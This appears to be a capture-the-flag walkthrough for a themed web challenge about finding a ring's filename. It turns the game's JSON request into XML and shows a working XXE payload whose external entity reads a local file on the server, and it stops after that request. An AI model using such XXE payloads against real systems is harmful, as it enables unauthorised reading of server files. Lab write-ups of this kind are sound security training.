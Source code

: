 Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.

Difficulty: 5/5

## Chat with Fitzy Akbowl
Huh - what? Why do you disturb Akbowl?

I'm trying to get the ring in here for the Sporc Chief.

Unlucky for me it's lost in this water basin thing.

You will not get it out before Akbowl!

## Terminal
> Discover something Glamtariel has never revealed

>What is the filename of the ring she presents you?

Whenever we drop an object on either the princess or the fountain we see JSON requests getting triggered which look like this:

```
{"imgDrop":"img1","who":"princess","reqType":"json"}
```

HINT:
>Sometimes we can hit web pages with XXE when they aren't expecting it!

let's convert the JSON request to an XML request and try sending this modified request.

```
<?xml version="1.0" encoding="UTF-8" ?>
<root>
	<imgDrop>img1</imgDrop>
	<who>princess</who>
	<reqType>xml</reqType>
</root>
```

Remember to change the content-type of the request too! On sending this request, we get the following response.

```
{
  "appResp": "I love rings of all colors!^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

We know to try XXE from the hint. Also based on the clues from the princess and the fountain we are looking for a ringlist.txt. After experimenting with locations to try XXE as well as guessing possible paths, the following request works and we get a differenct repsonse from the server.

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt"> ]>
<root>
 <imgDrop>&xxe;</imgDrop>
 <who>princess</who>
 <reqType>xml</reqType>
</root>
```
